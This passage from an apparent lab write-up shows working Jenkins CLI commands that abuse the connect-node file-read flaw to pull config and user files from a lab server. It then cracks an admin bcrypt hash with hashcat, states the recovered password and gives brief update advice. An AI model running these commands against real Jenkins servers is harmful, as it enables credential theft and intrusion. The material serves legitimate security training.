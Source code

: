 The attacker can proceed to obtain the password hashes for all the Jenkins accounts and he/she has to follow these steps:

1. Discover where Jenkins is installed, the attacker can search on the web some default installation paths: `java -jar jenkins-cli.jar -s 'http://192.168.1.104:8080' connect-node "@/var/lib/jenkins/config.xml"` 
2. Find the users of the application: `java -jar jenkins-cli.jar -s 'http://192.168.1.104:8080' connect-node "@/var/lib/jenkins/users/users.xml"`
3. Read the password hash of the users, the interesting one is `oldadmin`: `java -jar jenkins-cli.jar -s 'http://192.168.1.104:8080' connect-node "@/var/lib/jenkins/users/oldadmin_8934789694270900868/config.xml`

Once the attacker gets the bcrypt password hash for the `oldadmin` user, he/she can try to crack it with `hashcat`, the process is the same as for the SQL Injection of the medium exploitation path. The password is `valeilpensiero`.

![Freeolo password cracked](../assets/img/posts/eth_lab_1/pwd_crack_2.png){: width="700"}

#### Remediation

The developer should consider the warning messages that appear in the Jenkins dashboard and update the software:

![Update Jenkins](../assets/img/posts/eth_lab_1/update_jenkins.png){: width="700"}

### Foothold (part 2): CVE-2024-2044 PgAdmin4 8.3 Authenticated RCE via Path Traversal and Unsafe Deserialization
